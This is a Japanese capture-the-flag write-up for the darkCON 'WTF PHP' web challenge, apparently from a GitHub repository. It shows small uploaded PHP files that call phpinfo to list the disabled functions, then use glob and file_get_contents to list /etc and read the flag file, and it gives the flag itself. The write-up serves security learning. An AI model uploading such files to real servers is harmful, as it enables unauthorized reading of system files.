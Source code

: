# WTF PHP:Web:269pts
```
Your php function didnt work? maybe some info will help you xD 
PS: Flag is somewhere in /etc
Note: This chall does not require any brute forcing
```
[Link](http://wtf-php.darkarmy.xyz/)  

# Solution
アクセスするとファイルをアップロードでき、それを閲覧できるサイトのようだ。  
index.php  
[site1.png](site/site1.png)  
phpが設置できるので、`system`を呼べばよいのだが動作しない。  
infoに助けがあると問題文にあるので、以下のinfo.phpで`phpinfo`を呼び出す。  
```php:info.php
<?php
echo "info.php";
phpinfo();
?>
```
disable_functionsを見る。  
![df.png](images/df.png)  
任意コード実行できるものが軒並み使用不可となっている。  
しかし、`glob`や`file_get_contents`は使用できる。  
以下のglob.phpで問題文で指定されている/etc内をすべて見る。  
```php:glob.php
<?php
echo "glob.php";
print_r(glob("/etc/*"));
?>
```
glob.php  
[site2.png](site/site2.png)  
`/etc/f1@g.txt`なる怪しいファイルがあるようだ。  
以下のfgetcont.phpで読み込む。  
```php:fgetcont.php
<?php
echo "fgetcont.php";
echo file_get_contents("/etc/f1@g.txt");
?>
```
fgetcont.php  
[flag.png](site/flag.png)  
flagが書かれていた。  

## darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}